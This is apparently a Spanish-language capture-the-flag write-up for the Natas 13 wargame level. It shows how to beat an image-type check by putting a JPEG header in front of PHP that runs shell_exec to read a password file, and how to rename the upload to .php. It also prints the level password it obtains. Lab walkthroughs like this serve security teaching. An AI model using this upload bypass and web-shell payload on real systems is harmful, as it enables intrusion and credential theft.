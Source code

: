 ```yaml
---
title: Natas-13
published: true
---
```


En este reto, comprueba si el fichero que se sube es una imagen.jpg. Para ello utiliza la función exif_imagetype() , dicha función comprueba si la cabecera del fichero es una imagen. 
Para saltarnos este obstáculo, podemos modificar el fichero fuente de una imagen, dejar la primera línea y le insertamos código php de la siguiente manera:

```
ÿØÿà JFIF  ` `  ÿÛ C
<?php $output = shell_exec('cat /etc/natas_webpass/natas14'); var_dump($output); ?>
```

Si guardamos la modificación y subimos la imagen, no ejecutará el código php ya que el código fuente lo guardará en un formato jpg.
Para poder subir el fichero en un formato php, modificamos el código fuente html en el campo value así:

```html
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="tzp8ecx2ff.jpg" /> <!-- modificamos la extensión a tzp8ecx2ff.php -->
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

La salida al subir "la imagen"

```html
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/9ro0m0gtb6.php">upload/9ro0m0gtb6.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Como podemos ver, ha subido "la imagen" en formato php, si hacemos clic en el enlace nos ejecutará el código php que hemos insertado en el fichero que hemos subido.

```
����JFIF``��C   string(33) "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 " 
```


```    
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

[Volver al archivo](archive)
